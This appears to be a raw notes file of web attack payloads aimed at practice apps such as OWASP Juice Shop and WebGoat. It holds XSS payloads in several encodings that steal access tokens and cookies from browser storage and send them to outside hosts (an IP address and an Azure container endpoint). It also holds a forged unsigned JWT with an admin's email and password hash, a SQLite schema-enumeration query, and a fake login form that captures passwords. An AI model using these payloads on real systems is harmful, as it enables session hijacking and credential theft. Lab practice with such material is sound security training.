 var x = window.localStorage.getItem("adal.access.token.keyfea922e0-f20b-4038-bc96-aa7be62c6e2e");var xhttp = new XMLHttpRequest();xhttp.open("GET", "http://104.40.75.104:8000/1ds8c7n1?token="+x, false);xhttp.send();

http://localhost:4200/bypass?name=%3Ciframe%20src%3Djavascript:alert(window.sessionStorage.getItem(%22adal.access.token.keyfea922e0-f20b-4038-bc96-aa7be62c6e2e%22))%3E%3Cp%3ERafael%3C%2Fp%3E%3C%2Fiframe%3E

http://localhost:4200/bypass?name=<iframe src=javascript:var x = window.sessionStorage.getItem("adal.access.token.keyfea922e0-f20b-4038-bc96-aa7be62c6e2e");alert(x);window.open("http://trashbin.centralus.azurecontainer.io/1k8h2hb1%3Ftoken="+window.sessionStorage.getItem('adal.access.token.keyfea922e0-f20b-4038-bc96-aa7be62c6e2e'))></iframe>

<iframe 
  
  src=javascript:var x = window.localStorage.getItem('adal.access.token.keyfea922e0-f20b-4038-bc96-aa7be62c6e2e');
  var xhttp = new XMLHttpRequest();
  xhttp.open("GET", "http://104.40.75.104:8000/1ds8c7n1%3Ftoken="+x, false);
  xhttp.send();

</iframe>

http://localhost:4200/bypass?name=%3Ciframe%20src%3Djavascript:window.location.href%3D%27http:%2F%2Ftrashbin.centralus.azurecontainer.io%2F1k8h2hb1%3Ftoken%3D%27%2Bwindow.sessionStorage.getItem(%22adal.access.token.keyfea922e0-f20b-4038-bc96-aa7be62c6e2e%22)%3E%3C%2Fiframe%3E

<script>
  var xhttp = new XMLHttpRequest();
  xhttp.open("GET", "http://104.40.75.104:8000/1mvpm171?cookie="+document.cookie, false);
  xhttp.send();
</script>

http://localhost:3000/#/search?q=%3Cscript%3Evar%20xhttp%20%3D%20new%20XMLHttpRequest();xhttp.open(%22GET%22,%20%22http:%2F%2F104.40.75.104:8000%2F1mvpm171%3Fcookie%3D%22%2Bdocument.cookie,%20false);xhttp.send();%3C%2Fscript%3E

{
  "alg": "none",
  "typ": "JWT"
}

{
  "status": "success",
  "data": {
    "id": 1,
    "email": "bjoern.kimminich@googlemail.com",
    "password": "0192023a7bbd73250516f069df18b500",
    "createdAt": "2018-08-03 16:25:49.746 +00:00",
    "updatedAt": "2018-08-03 16:25:49.746 +00:00"
  },
  "iat": 1533614519,
  "exp": 1533632519
}

ewogICJhbGciOiAibm9uZSIsCiAgInR5cCI6ICJKV1QiCn0.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwiZW1haWwiOiJiam9lcm4ua2ltbWluaWNoQGdvb2dsZW1haWwuY29tIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsImNyZWF0ZWRBdCI6IjIwMTgtMDgtMTQgMDU6MDg6MjcuMTc5ICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMTgtMDgtMTQgMDU6MDg6MjcuMTc5ICswMDowMCJ9LCJpYXQiOjE1MzQyMjUwNjMsImV4cCI6MTUzNDI0MzA2M30


eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwiZW1haWwiOiJiam9lcm4ua2ltbWluaWNoQGdvb2dsZW1haWwuY29tIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsImNyZWF0ZWRBdCI6IjIwMTgtMDgtMTQgMDU6MDg6MjcuMTc5ICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMTgtMDgtMTQgMDU6MDg6MjcuMTc5ICswMDowMCJ9LCJpYXQiOjE1MzQyMjUwNjMsImV4cCI6MTUzNDI0MzA2M30

YmpvZXJuLmtpbW1pbmljaEBnb29nbGVtYWlsLmNvbQ==


SELECT name FROM (SELECT * FROM sqlite_master UNION ALL SELECT * FROM sqlite_temp_master) WHERE type='table' ORDER BY name

</form>
  <script>
    function hack(){ 
      XSSImage=new Image; 
      XSSImage.src="http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user="+ document.phish.user.value + "&password=" + document.phish.pass.value + ""; 
  </script>
  
  <form name="phish">
  <br><br>
  <HR>
  <H3>This feature requires account login:</H3 >
  <br><br>Enter Username:<br>
  <input type="text" name="user">
  <br>Enter Password:<br>
  <input type="password" name = "pass">
  <br><input type="submit" name="login" value="login" onclick="hack()">
  </form>
  <br><br>
  <HR>